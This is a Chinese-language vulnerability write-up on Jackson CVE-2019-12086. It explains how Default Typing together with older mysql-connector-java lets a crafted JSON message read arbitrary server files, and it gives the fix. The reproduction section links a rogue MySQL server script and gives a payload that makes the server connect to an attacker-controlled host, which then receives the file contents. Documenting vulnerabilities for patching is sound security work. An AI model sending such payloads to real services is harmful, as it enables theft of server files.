


# Jackson-CVE-2019-12086 任意文件读取漏洞

# 漏洞描述
在开启Default Typing的情况下，且classpath中存在mysql-connector-java 8.0.15版本（2019.2.1发布）以下，攻击者可以通过发送恶意json数据读取任意文件。mysql-connector-java这个库就是连接数据库时常用的mysql jdbc。

CVE描述如下：
>A Polymorphic Typing issue was discovered in FasterXML jackson-databind 2.x before 2.9.9. When Default Typing is enabled (either globally or for a specific property) for an externally exposed JSON endpoint, the service has the mysql-connector-java jar (8.0.14 or earlier) in the classpath, and an attacker can host a crafted MySQL server reachable by the victim, an attacker can send a crafted JSON message that allows them to read arbitrary local files on the server. This occurs because of missing com.mysql.cj.jdbc.admin.MiniAdmin validation.

# 漏洞分析
漏洞详情：
1. 在开启Default Typing的情况下，jackson在反序列化json时，可以反序列化指定类，且可以指定一个基础类型的值作为这个类的构造函数的参数的值。
2. `com.mysql.cj.jdbc.admin.MiniAdmin`的构造函数接受一个string的值，这个值代表jdbcURL，`com.mysql.cj.jdbc.admin.MiniAdmin`类在初始化会连接这个jdbcURL中指定的MySQL数据库。
3. 在mysql-connector-java 8.0.15版本（2019.2.1发布）以下，恶意MySQL服务器可以读取MySQL客户端的任意本地文件，从而导致漏洞产生。

# 漏洞复现
1. 启动恶意MySQL服务器： https://github.com/allyshka/Rogue-MySql-Server/blob/master/rogue_mysql_server.py 
> python rogue_mysql_server.py
2. 在同一个目录下查看mysql.log：
> tail -f mysql.log
3. 向存在漏洞的应用发送如下json：
> [\"com.mysql.cj.jdbc.admin.MiniAdmin\",\"jdbc:mysql://attacker_server:port/foo\"]
4. 当jackson反序列化恶意json串后，会连接恶意MySQL服务器，被读取的文件内容会写入恶意服务器的mysql.log。

# 漏洞修复
升级jackson至`2.9.9`及以上。
